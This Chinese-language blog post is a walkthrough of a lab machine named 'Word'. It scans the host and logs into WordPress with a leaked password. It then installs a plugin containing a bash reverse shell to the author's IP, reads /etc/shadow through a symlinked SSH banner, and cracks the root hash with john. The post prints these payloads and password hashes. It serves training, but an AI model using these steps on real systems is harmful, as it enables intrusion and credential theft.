









# Word


# Word



## 端口扫描

‍

```python
└─# nmap -sV -A 172.31.1.118
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-30 00:46 CST
Nmap scan report for 172.31.1.118
Host is up (0.00044s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:86:BD:97 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms 172.31.1.118

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.93 seconds                                               
```

## 信息收集

扫一下目录

```python
└─# dirsearch -u http://172.31.1.118/         

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/reports/http_172.31.1.118/__25-11-30_00-48-20.txt

Target: http://172.31.1.118/

[00:48:20] Starting: 
[00:48:21] 403 -  277B  - /.ht_wsr.txt
[00:48:21] 403 -  277B  - /.htaccess.bak1
[00:48:21] 403 -  277B  - /.htaccess.orig
[00:48:21] 403 -  277B  - /.htaccess.save
[00:48:22] 403 -  277B  - /.htaccess.sample
[00:48:22] 403 -  277B  - /.htaccess_extra
[00:48:22] 403 -  277B  - /.htaccess_orig
[00:48:22] 403 -  277B  - /.htaccess_sc
[00:48:22] 403 -  277B  - /.htaccessBAK
[00:48:22] 403 -  277B  - /.htaccessOLD2
[00:48:22] 403 -  277B  - /.htaccessOLD
[00:48:22] 403 -  277B  - /.htm
[00:48:22] 403 -  277B  - /.html
[00:48:22] 403 -  277B  - /.htpasswd_test
[00:48:22] 403 -  277B  - /.htpasswds
[00:48:22] 403 -  277B  - /.httr-oauth
[00:48:22] 403 -  277B  - /.php
[00:48:32] 200 -    1KB - /banner.php
[00:48:52] 403 -  277B  - /server-status/
[00:48:52] 403 -  277B  - /server-status
[00:49:00] 200 -   12KB - /wordpress/
```

发现是一个 wordpress 还有 banner.php，继续扫描一下 wordpress

```python
└─# dirsearch -u http://172.31.1.118/wordpress
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/reports/http_172.31.1.118/_wordpress_25-11-30_01-01-05.txt

Target: http://172.31.1.118/

[01:01:05] Starting: wordpress/
[01:01:06] 403 -  277B  - /wordpress/.ht_wsr.txt
[01:01:06] 403 -  277B  - /wordpress/.htaccess.bak1
[01:01:06] 403 -  277B  - /wordpress/.htaccess.orig
[01:01:06] 403 -  277B  - /wordpress/.htaccess.sample
[01:01:06] 403 -  277B  - /wordpress/.htaccess_sc
[01:01:06] 403 -  277B  - /wordpress/.htaccess.save
[01:01:06] 403 -  277B  - /wordpress/.htaccess_extra
[01:01:06] 403 -  277B  - /wordpress/.htaccess_orig
[01:01:06] 403 -  277B  - /wordpress/.htaccessBAK
[01:01:06] 403 -  277B  - /wordpress/.htaccessOLD
[01:01:06] 403 -  277B  - /wordpress/.htaccessOLD2
[01:01:06] 403 -  277B  - /wordpress/.htm
[01:01:06] 403 -  277B  - /wordpress/.html
[01:01:06] 403 -  277B  - /wordpress/.htpasswd_test
[01:01:06] 403 -  277B  - /wordpress/.htpasswds
[01:01:06] 403 -  277B  - /wordpress/.httr-oauth
[01:01:07] 403 -  277B  - /wordpress/.php
[01:01:26] 301 -    0B  - /wordpress/index.php  ->  http://172.31.1.118/wordpress/
[01:01:26] 301 -    0B  - /wordpress/index.php/login/  ->  http://172.31.1.118/wordpress/login/
[01:01:28] 200 -    7KB - /wordpress/license.txt
[01:01:34] 200 -    3KB - /wordpress/readme.html
[01:01:42] 301 -  325B  - /wordpress/wp-admin  ->  http://172.31.1.118/wordpress/wp-admin/
[01:01:42] 400 -    1B  - /wordpress/wp-admin/admin-ajax.php
[01:01:42] 302 -    0B  - /wordpress/wp-admin/  ->  http://word.dsz/wordpress/wp-login.php?redirect_to=http%3A%2F%2F172.31.1.118%2Fwordpress%2Fwp-admin%2F&reauth=1
[01:01:42] 200 -  574B  - /wordpress/wp-admin/install.php
[01:01:42] 200 -    0B  - /wordpress/wp-config.php
[01:01:42] 409 -    3KB - /wordpress/wp-admin/setup-config.php
[01:01:42] 301 -  327B  - /wordpress/wp-content  ->  http://172.31.1.118/wordpress/wp-content/
[01:01:42] 200 -    0B  - /wordpress/wp-content/
[01:01:42] 200 -    0B  - /wordpress/wp-content/plugins/hello.php
[01:01:42] 200 -  421B  - /wordpress/wp-content/upgrade/
[01:01:42] 200 -  460B  - /wordpress/wp-content/uploads/
[01:01:42] 301 -  328B  - /wordpress/wp-includes  ->  http://172.31.1.118/wordpress/wp-includes/
[01:01:42] 200 -    0B  - /wordpress/wp-includes/rss-functions.php
[01:01:42] 200 -    6KB - /wordpress/wp-includes/
[01:01:42] 200 -    0B  - /wordpress/wp-cron.php
[01:01:42] 302 -    0B  - /wordpress/wp-signup.php  ->  http://word.dsz/wordpress/wp-login.php?action=register
[01:01:42] 405 -   42B  - /wordpress/xmlrpc.php

```

会发现有些网址会 [http://word.dsz/wordpress/wp-content/uploads/2025/11/yx2.jpeg](http://word.dsz/wordpress/wp-content/uploads/2025/11/yx2.jpeg)  会重定向到 word.dsz 修改一下 hosts 文件添加如下，就能正常访问了。在  `C:\Windows\System32\drivers\etc` 下

```python
# 添加以下行
172.31.1.118    word.dsz
```

‍

在 http://172.31.1.118/wordpress/wp-content/uploads/2025/11/pass.txt 发现密码文件

> S9ZF6mtLdHfmr8PmCq3i



在 http://172.31.1.118/wordpress/wp-includes/Text/Diff/Engine/ 发现 shell.php，好像没啥用



然后尝试登入一下后台，http://word.dsz/wordpress/wp-admin/

> root
>
> S9ZF6mtLdHfmr8PmCq3i



然后搜索一下找到wordpress 相关的漏洞 [WordPress 进入后台获取shell的几种姿势（wordpress getshell）-CSDN博客](https://blog.csdn.net/2301_79518550/article/details/144808291)

制作一个 shell 

```python
<?php
/**
 * Plugin Name: Reverse Shell Plugin
 * Plugin URI: 
 * Description: Reverse Shell Plugin for penetration testing.
 * Version: 1.0
 * Author: Security Analyst
 * Author URI: http://www.example.com
 */
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.106.1.210/2233 0>&1'");
?>

```

然后压缩一下

```python
zip shell.zip shell.php 
```

然后去安装插件



激活插件后就能发现 shell 反弹回来了





然后拿到 user 下的 flag

```python
www-data@Word:/home/ssh-banner$ cat user.txt
cat user.txt
flag{user-3a9dc01d01eb76d0fdd0fafa9f5fda79}
```

## 提权

发现 `/opt` 下也有一个 pass.txt，好像没啥用，给了个提示 check all system file

```python
www-data@Word:/opt$ cat pa*
cat pa*
S9ZF6mtLdHfmr8PmCq3i
// user password 
// check all system file
```

可以使用 dpkg -V  检查验证已安装软件包的完整性，通过对比文件与包记录信息来检测异常篡改，用于渗透测试中的系统异常信息收集。（学习其他师傅的）

> **dpkg -V** (或 `dpkg --verify`) 的作用：
>
> - 检查已安装软件包的文件是否被修改过
> - 比较文件的MD5哈希值、权限、大小等属性（5）
> - 标记出与原始安装状态不一致的文件
> - **c**：表示这是配置文件

```python
www-data@Word:/home/ssh-banner$ dpkg -V
dpkg -V
??5?????? c /etc/irssi.conf
??5?????? c /etc/apache2/apache2.conf
dpkg: warning: systemd: unable to open /var/lib/polkit-1/localauthority/10-vendor.d/systemd-networkd.pkla for hash: Permission denied
??5??????   /var/lib/polkit-1/localauthority/10-vendor.d/systemd-networkd.pkla
dpkg: warning: mariadb-server-10.5: unable to open /usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool for hash: Permission denied
??5??????   /usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
??5?????? c /etc/grub.d/10_linux
??5?????? c /etc/grub.d/40_custom
dpkg: warning: sudo: unable to open /etc/sudoers for hash: Permission denied
??5?????? c /etc/sudoers
dpkg: warning: sudo: unable to open /etc/sudoers.d/README for hash: Permission denied
??5?????? c /etc/sudoers.d/README
dpkg: warning: inspircd: unable to open /etc/inspircd/inspircd.conf for hash: Permission denied
??5?????? c /etc/inspircd/inspircd.conf
dpkg: warning: inspircd: unable to open /etc/inspircd/inspircd.motd for hash: Permission denied
??5?????? c /etc/inspircd/inspircd.motd
dpkg: warning: inspircd: unable to open /etc/inspircd/inspircd.rules for hash: Permission denied
??5?????? c /etc/inspircd/inspircd.rules
??5??????   /usr/bin/top
dpkg: warning: packagekit: unable to open /var/lib/polkit-1/localauthority/10-vendor.d/org.freedesktop.packagekit.pkla for hash: Permission denied
??5??????   /var/lib/polkit-1/localauthority/10-vendor.d/org.freedesktop.packagekit.pkla
??5?????? c /etc/issue
```

发现 `/usr/bin/top`​ 被修改 - **这很可疑**，可能是后门或恶意软件。发现要重启一下 ssh 因该这个就是 ssh-banner 用户的密码

```python
www-data@Word:/home/ssh-banner$ cat /usr/bin/top
cat /usr/bin/top
#!/bin/bash

echo 'jUOhu37yYllYiVxQNw8G'
systemctl restart ssh
```

刚才在 home 目录，发现 banner.txt 文件，与 banner.php 中修改后，ssh登录前显示的保持

一致。然后看看 ssh 的配置文件

```python
www-data@Word:/home/ssh-banner$ cat /etc/ssh/sshd_config    
cat /etc/ssh/sshd_config
#       $OpenBSD: sshd_config,v 1.103 2018/04/09 20:41:22 tj Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key

# Ciphers and keying
#RekeyLimit default none

# Logging
#SyslogFacility AUTH
#LogLevel INFO

# Authentication:

#LoginGraceTime 2m
PermitRootLogin yes
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10

#PubkeyAuthentication yes

# Expect .ssh/authorized_keys2 to be disregarded by default in future.
#AuthorizedKeysFile     .ssh/authorized_keys .ssh/authorized_keys2

#AuthorizedPrincipalsFile none

#AuthorizedKeysCommand none
#AuthorizedKeysCommandUser nobody

# For this to work you will also need host keys in /etc/ssh/ssh_known_hosts
#HostbasedAuthentication no
# Change to yes if you don't trust ~/.ssh/known_hosts for
# HostbasedAuthentication
#IgnoreUserKnownHosts no
# Don't read the user's ~/.rhosts and ~/.shosts files
#IgnoreRhosts yes

# To disable tunneled clear text passwords, change to no here!
#PasswordAuthentication yes
#PermitEmptyPasswords no

# Change to yes to enable challenge-response passwords (beware issues with
# some PAM modules and threads)
ChallengeResponseAuthentication no

# Kerberos options
#KerberosAuthentication no
#KerberosOrLocalPasswd yes
#KerberosTicketCleanup yes
#KerberosGetAFSToken no

# GSSAPI options
#GSSAPIAuthentication no
#GSSAPICleanupCredentials yes
#GSSAPIStrictAcceptorCheck yes
#GSSAPIKeyExchange no

# Set this to 'yes' to enable PAM authentication, account processing,
# and session processing. If this is enabled, PAM authentication will
# be allowed through the ChallengeResponseAuthentication and
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication via ChallengeResponseAuthentication may bypass
# the setting of "PermitRootLogin without-password".
# If you just want the PAM account and session checks to run without
# PAM authentication, then enable this but set PasswordAuthentication
# and ChallengeResponseAuthentication to 'no'.
UsePAM yes

#AllowAgentForwarding yes
#AllowTcpForwarding yes
#GatewayPorts no
X11Forwarding yes
#X11DisplayOffset 10
#X11UseLocalhost yes
#PermitTTY yes
PrintMotd no
#PrintLastLog yes
#TCPKeepAlive yes
#PermitUserEnvironment no
#Compression delayed
#ClientAliveInterval 0
#ClientAliveCountMax 3
#UseDNS no
#PidFile /var/run/sshd.pid
#MaxStartups 10:30:100
#PermitTunnel no
#ChrootDirectory none
#VersionAddendum none

# no default banner path
Banner /home/ssh-banner/banner.txt

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# override default of no subsystems
Subsystem       sftp    /usr/lib/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
```

发现 Banner /home/ssh-banner/banner.txt ，banner.txt ⽂件是在我们的家⽬录下的这意味着对⽂件名拥有控制结合 banner 不难想到利⽤路径查看 shadow （实现任意读取）

用上面得到的 ssh-banner 用户 ssh 登录一下



然后执行删除 banner.txt ,并创建指向 /etc/shadow 的软链接

```python
ssh-banner@Word:~$ mv banner.txt banner.txt.bak
ssh-banner@Word:~$ ls
banner.txt.bak  user.txt
ssh-banner@Word:~$ ln -sv /etc/shadow banner.txt
'banner.txt' -> '/etc/shadow'
ssh-banner@Word:~$ 
```

在尝试一下 ssh 登录，就能发现 /etc/shadow 被当做 banner.txt 输出到 ssh 登录前面了

```python
└─# ssh ssh-banner@10.106.1.220
root:$6$2KzhPia8Wwzs7L/E$7aa6JS7MQvMCqzGn3Q4Q.4dIWFzuic/l/VxOCMsU95I4zNYCpXD6GXv2ixswndTcY/ow9475lR2Dx7j5VWagc0:20407:0:99999:7:::
daemon:*:20166:0:99999:7:::
bin:*:20166:0:99999:7:::
sys:*:20166:0:99999:7:::
sync:*:20166:0:99999:7:::
games:*:20166:0:99999:7:::
man:*:20166:0:99999:7:::
lp:*:20166:0:99999:7:::
mail:*:20166:0:99999:7:::
news:*:20166:0:99999:7:::
uucp:*:20166:0:99999:7:::
proxy:*:20166:0:99999:7:::
www-data:*:20166:0:99999:7:::
backup:*:20166:0:99999:7:::
list:*:20166:0:99999:7:::
irc:*:20166:0:99999:7:::
gnats:*:20166:0:99999:7:::
nobody:*:20166:0:99999:7:::
_apt:*:20166:0:99999:7:::
systemd-timesync:*:20166:0:99999:7:::
systemd-network:*:20166:0:99999:7:::
systemd-resolve:*:20166:0:99999:7:::
systemd-coredump:!!:20166::::::
messagebus:*:20166:0:99999:7:::
sshd:*:20166:0:99999:7:::
mysql:!:20407:0:99999:7:::
ssh-banner:$6$UNnjY.C7H66/tvez$yG9zHwkfnQY8LS0j52PFbeQWg3qUwaywqMnYXDswu10IbY2lgvhL8m1IqhDbHM0McJVnCt10FtWPg.yq87CL11:20407:0:99999:7:::
ssh-banner@10.106.1.220's password: 
```

然后使用 john 爆破密码

```python
echo 'root:$6$2KzhPia8Wwzs7L/E$7aa6JS7MQvMCqzGn3Q4Q.4dIWFzuic/l/VxOCMsU95I4zNYCpXD6GXv2ixswndTcY/ow9475lR2Dx7j5VWagc0:20407:0:99999:7:::' > root_hash.txt
```

```python
└─# john --wordlist=rockyou.txt root_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
********         (root)     
1g 0:00:00:01 DONE (2025-11-30 13:21) 0.7812g/s 15200p/s 15200c/s 15200C/s sunshine13..leonardo1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

然后再 ssh 使用 root 重新登录一下

```python
ssh root@10.106.1.220
```



flag：flag{root-a46ec67a0f2e7c387926ac5d783ea4b8}

## 知识点

问：第一个的话是banner起到了什么作用 为什么通过banner就可以看到文件，也就是说这个banner本质上是做了什么

> 就是这个 banner.txt 就是输出到ssh前面的内容，然后可以把那个etc文件指定成这个txt，让ssh前面可以直接读取出来
>
> 第一个问题的话 banner可以理解为cat 所以本质上就是查看的作用

‍

问：第二个的话 命名banner.txt的文件是属于root的 我只是ssh-banner用户 为什么可以删除root的文件

> 是由于目录的属主是ssh-banner

‍

‍

如果对这个还想继续研究的话 你可以用root用户在ssh-banner下面放一个只读的文件 然后看看ssh-banner可以做什么然后不可以做什么

> 效果就是可以读 可以删（擦去指针方向） 不能改（没有指向内容的权限） 可以重命名（指针指向新的地方）

‍

```python
find / -type f -newermt "2025-11-14" ! -newermt "2025-11-29" ! -path '/proc/*' ! -path '/sys/*' ! -path '/run/*' -readable 2>/dev/null
<ath '/sys/*' ! -path '/run/*' -readable 2>/dev/null


```

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/word/  

